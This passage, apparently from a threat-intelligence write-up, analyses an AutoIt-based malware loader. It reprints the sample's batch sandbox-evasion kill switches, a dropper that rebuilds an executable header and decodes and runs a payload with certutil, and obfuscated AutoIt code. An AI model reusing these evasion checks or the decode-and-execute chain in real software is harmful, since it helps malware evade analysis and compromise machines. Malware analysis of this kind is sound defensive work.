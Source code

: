 <center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/UnknownTA/2020-09-07/Pictures/ExecuteScript.png"></img></center>

<h4>The first part of the script use a lot of kill switchs already detected in July 2020 on similliar autoit script. aa_TouchMeNot is a reference of a file used on MSE sandbox for analysis threat in the sandbox, that presented in the first time on the blackhat 2018 and firstly used by BitPaymer ransomware.</h4>

``` batch
Set YAFtyhpbN=Q
REM Check sandbox MSE
if exist C:\aaa_TouchMeNot_.txt exit
REM Killswitch Computername
if %computername% == DESKTOP-%YAFtyhpbN%UO5%YAFtyhpbN%U33 exit
REM DESKTOP-QO5QU33 
ping -n 1 UKL.UVLJR
if %errorlevel% == 0 exit
if %computername% == NfZtFbPfH exit
if %computername% == ELICZ exit
if %computername% == MAIN exit
```

<h4>The final part of the script fix the header of the autoit builder (23e87924005aeef08ab3c9402aa749c0373ed9fa6c1706c13ca1df5ec33f8928), write on the disk, decode from base 64 the autoit payload to execute and launch with the autoit builder.</h4>

``` batch
REM Fix header on the autoit builder
<nul set /p ="MZ" > SearchIndexer.com
REM Echo and write the PE
type pZFFZxnbbPw.com >> SearchIndexer.com
REM Remove the last script 
del pZFFZxnbbPw.com
REM Decode from base 64 the autoit payload to execute
certutil -decode sUs.com h
REM Execute it
SearchIndexer.com h
ping 127.0.0.1 -n 30
```

<h4>As obfuscation, the script uses a lot of while - switches loops for redirect the good section of code to push on each function. The first good thing to have in mind is to verify the functions that used in checking the numbers of calls of references in theirs functions. Like forensic and malware analysis is a matter of instinct, this a good idea, only four of twelve functions is used, the rest is junk code of makes high entropy and more harder the analysis. So only a third of more 16000 lines of the script is to deobfuscate, that a better start.</h4>

``` autoit
If (Ping(NuEIwMq("74I89I100I112I77I120I109I110I74I97I97I100I119I46I74I89I100I112I77I120I109I110I74I97I97I100I119",0), 1000) <> 0) Then Exit
 
$qGRwbSPeJ = @AppDataDir & NuEIwMq("94I101I113I119I117I110I94I101I113I119I117I110I48I101I113I111",2)
$ArlTLV = @AppDataDir & NuEIwMq("99I106I118I124I122I115I99I72I93I117I112I127I94I78",7)
$RvZgoJpth = @AppDataDir & NuEIwMq("98I105I117I123I121I114I98I123I88I116I124I77I124I123I72I124I80I107I52I124I104I121",6)
$aCYDDEjBZszBdg = @AppDataDir & NuEIwMq("101I108I120I126I124I117I101I90I79I111I82I77I127I82I89I125I93I88I126I55I108I120I118",9)
If Not FileExists($qGRwbSPeJ) Then
	If DirGetSize(@AppDataDir & NuEIwMq("96I103I115I121I119I112",4)) < 0 Then

Global $JAYmBXZG = 118
Global $hnwsOohw = 96
While (6350-6349)
Switch $JAYmBXZG
Case 115
$dlffyVxJSrHGTz = SplashOff()
$102 = 138
```